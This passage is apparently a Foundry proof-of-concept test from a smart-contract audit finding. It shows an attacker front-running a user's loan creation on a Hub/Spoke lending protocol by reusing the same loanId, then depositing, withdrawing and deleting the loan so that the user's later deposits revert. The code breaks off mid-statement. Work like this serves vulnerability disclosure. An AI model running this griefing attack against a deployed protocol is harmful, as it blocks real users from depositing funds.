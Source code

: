 ```solidity
        // - User creates loan for loanTypeId_1. For simple, single chain POC, user can deposit into two poolIds directly on Hub chain: 128, 129.
        // - loan pools for loanTypeId_1 have a smaller collateralRewardIndex than loan pools for loanTypeId_2 (user can be griefed if they choose loanType with smaller index)
        bytes32 loanId = keccak256(abi.encodePacked(user, accountIdUser));
        uint16 loanTypeId_1 = 1;

        ILoanManager loanManager = ILoanManager(IHUB(HUB).loanManager());
        // verify loan pools state (reward indexes)
        _verifyLoanPoolsState(loanManager);

        // bad actor front-runs tx and sets the collateral rewardIndex associated with the the loanId
        // bad actor creates loan for loanTypeId_2 and deposits into both pools (128, 129), withdraws all funds, deletes loan to free up loanId
        vm.startPrank(badActor);
        IERC20(USDC).approve(SPOKE_CIRCLE_TOKEN, 100e6);
        
        // create loan for loanTypeId_2 and deposit into poolId 128 (USDC) to set reward index 
        uint256 fTokenStart = loanManager.getLoanPool(2, 128).collateralUsed;

        ISpoke(SPOKE_CIRCLE_TOKEN).createLoanAndDeposit(params, accountIdBadActor, loanId, 100e6, uint16(2), bytes32(0));

        uint256 fTokenEnd = loanManager.getLoanPool(2, 128).collateralUsed;
        
        // withdraw from poolId 128 (USDC)
        ISpoke(SPOKE_COMMON).withdraw(params, accountIdBadActor, loanId, 128, 1, fTokenEnd - fTokenStart, true);

        // deposit into poolId 129 (AVAX) to set reward index
        fTokenStart = loanManager.getLoanPool(2, 129).collateralUsed;

        ISpoke(SPOKE_GAS_TOKEN).deposit{value: 1 ether}(params, accountIdBadActor, loanId, 1 ether);

        fTokenEnd = loanManager.getLoanPool(2, 129).collateralUsed;
        
        // withdraw from poolId 129 (AVAX)
        ISpoke(SPOKE_COMMON).withdraw(params, accountIdBadActor, loanId, 129, 1, fTokenEnd - fTokenStart, true);
        
        // delete loan to free up loanId
        ISpoke(SPOKE_COMMON).deleteLoan(params, accountIdBadActor, loanId);

        vm.stopPrank();

        // user's `createLoan` transaction executes
        vm.prank(user);
        ISpoke(SPOKE_COMMON).createLoan(params, accountIdUser, loanId, loanTypeId_1, bytes32(0));

        // user attempts to deposit into pools, but deposits reverts due to underflow
        bytes32 messageId = keccak256(abi.encodePacked(bytes32("HUB_ADAPTER_V1"), IHubAdapter(HUB_ADAPTER).sequence()));

        vm.startPrank(user);
        IERC20(USDC).approve(SPOKE_CIRCLE_TOKEN, 100e6);
        
        // user can not deposit into poolId 128 (USDC)
        vm.expectEmit(true, false, false, true);
        emit MessageFailed(
            params.adapterId, 
            messageId, 
```